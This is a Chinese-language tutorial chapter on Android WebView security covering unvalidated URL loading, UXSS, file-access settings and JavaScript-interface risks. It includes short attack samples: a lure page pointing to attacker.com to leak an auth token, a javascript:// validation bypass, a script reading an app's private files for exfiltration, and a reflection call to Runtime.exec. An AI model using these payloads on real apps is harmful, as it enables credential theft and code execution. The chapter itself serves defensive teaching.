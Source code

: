 # 第九章
# 移动web安全
在现代移动App开发中，越来越多的开发者采用本地代码加HTML5的混合开发形式。这种做法的优势是App迭代更快，还可以在多个平台复用代码，但操作不当不仅会产生传统的Web安全漏洞，web应用与本地代码的结合还会带来新的威胁
## webview简介
Android和iOS系统都提供了原生的webview用于在App中嵌入Web网页，随着系统不断迭代，其安全性能也在不断提升。
由于WebView本身就是浏览器组件，用来加载和渲染网页，用户也能与其交互，所以常见的前端安全漏洞在WebView中也同样存在。
在App开发中允许webview与本地代码交互，如果使用不当，恶意网页就能调用本地代码，跳出网页，实现更复杂的攻击。
## webview对外暴露
通常情况下App中的WebView只应该加载程序预置的文件或App自身域名的URL，所谓WebView对外暴露是指webview加载的URL可以通过外部输入控制。非常典型的场景是，App没有对URL做校验而是直接通过WebView加载URL，这可能导致敏感信息泄漏的，或当前页面被注入恶意JavaScript代码。
假如某Android应用中有一个ExampleActivity处理类似myapp://example.com/形式的URL，AndroidMainfest.xml文件内容如下：
```
<activity androd:name=".ExampleActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme:"myapp" android:host="example.com"/>
    </intent-filter>
</activity>
```
在ExampleActivity内部获取url参数并通过WebView加载，然后通过程序添加Authorization头向 服务求传递凭证信息，这在App中是非常常见的方式：
```
public class ExampleActivity extends Activity{
    protected void onCreate(Bundle saveInstanceState){
        super.onCreate(saveInstanceState);
        handleIntent(getInten());
    }
    
    private void handleIntent(Intent intent){
        Uri uri= intent.getData();
        String url = uri.getQueryParameter("url");
        webView.loadUrl(url,getAuthHeaders());
    }
    private Map<String, String> getAuthHeaders(){
        Map<String,String> headers = new HashMap<>();
        headers.put("Authorization",getUserToken());
        return headers;
    }
}
```
如果攻击这构造如下的网页让受害者点击：
```
<! DOCUTYPE html>
<html>
    <body style="text-alighn:center;">
        <h1><a href="myapp://example.com/?url=https://attacker.com">Attack</a></h1>
    </body>       
</html>
```
受害者的WebView将携带凭证信息访问攻击者指定的恶意网站https://attacker.com，从而导致凭证泄漏或者访问钓鱼网站，这在二维码扫描场景中尤为注意。
## Universal XSS
所谓通用型XSS(UXSS)漏洞，是指存在浏览器本身或其插件中的XSS漏洞，与具体web应用没有关系。攻击者可以在所有网站上实施UXSS，即使本身网站非常安全。
如果web应用只验证Host，而没有校验协议类型，这个检测还是会被绕过，如：
`javascript://example.com/%0aalert(1)`
WebView本身的一些不安全的设计也产生过很多UXSS漏洞。
## webview跨域访问
在WebView中也存在同源策略，只不过它提供了更多配置选项以放宽限制。需要进行合理配置以保证其安全性。
### setAllowFileAccess
该选项用于设置是否允许WebView加载file://xieyi文件，API3.0之前默认true，之后改为false。恶意App可以将带有恶意脚本的HTML文件写入SD卡，如果其他应用开启了该选项，并且支持通过intent传递URL到WebView中加载，攻击者就可以使WebView加载恶意文件，从而执行攻击者定义的JavaScript代码
### setAllowFileAccessFromFileURLs
用户通过这个选项设置file://协议加载的网页是否可以通过file://协议读取其他文件内容，默认值为false，API3.0以后已经废弃。如果应用会接收外部参数作为WebView的URL，开启这个选项将带来很大的安全风险，如：
```
//获取外部传入的URL
String url = getIntent().getStringExtra("URL");
...
//设置允许执行的JavaScript代码
webSettings.setJavaScriptEnabled(true);
//允许file://协议的文件
webSettings.setAllowFileAccessFromFileURLs(true);
...
webview.loadUrl(url);
```
如果WebView通过file://加载了恶意网页，其中的JavaScript代码可以通过XMLHttpRequest读取应用私有目录的内容，如WebView的Cookie、应用存储了敏感内容的SharedPrefernces：
```
 function read_file(path){
    var req = new XMLHttpRequest();
    req.onreadystatechange = function(){
        if(req.readyState==4){
            var content = req.responseText;
            //send content to evil site
        }
    }
    req.open('GET',path);
    req.send(null);
 }
 read_file('file:///data/data/com.xxx.xxx/shared_prefs/MainActivity.xml');
```
这样就打破了App之间的沙盒隔离，攻击者读取到了App内部的私有数据。
### setAllowUniversalAccessFromFileURLs
用户通过这个选项设置file://协议加载的网页是否可以读取任意源的内容，多了允许访问互联网上的内容。该选项默认为false，并且在API3.0中被废弃
上述跨域访问都依赖WebView通过setJavaScriptEnabled开启JavaScript，如果不需要应用做前端动态交互，可以默认不开启JavaScript
## 与本地代码交互
Android的WebView中，通过addJavaScrptInterface方法可以将一个Java对象注入到Web页面中，然后页面中的JavaScript代码可以直接引用该对象，并调用对象中的方法。利用Java的反射机制可以获得Runtime对象，从而执行系统命令：
```
jsObj.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
```
在API17后，必须在Java代码中对需要暴露给JavaScript的方法加上@JavaScriptInterface注解，才能在JavaScript中调用，如：
```
@JavaSciprtInterface
public void method(String str){
    doSomething(str);
}
```
明确定义了JavaScript中使用方法的白名单，限制了JavaScript的行为，提升了安全性，该机制限制了JavaScript代码与本地代码的交互，很难产生本地代码执行漏洞。但当 存在UXSS或者XSS漏洞时，攻击者可以注入JavaScript代码来访问本地代码暴露的JavaScript对象。
## 其他安全问题
注意调试的setWebContentsDebuggingEnabled选项，使用HTTPS协议，安全证书等

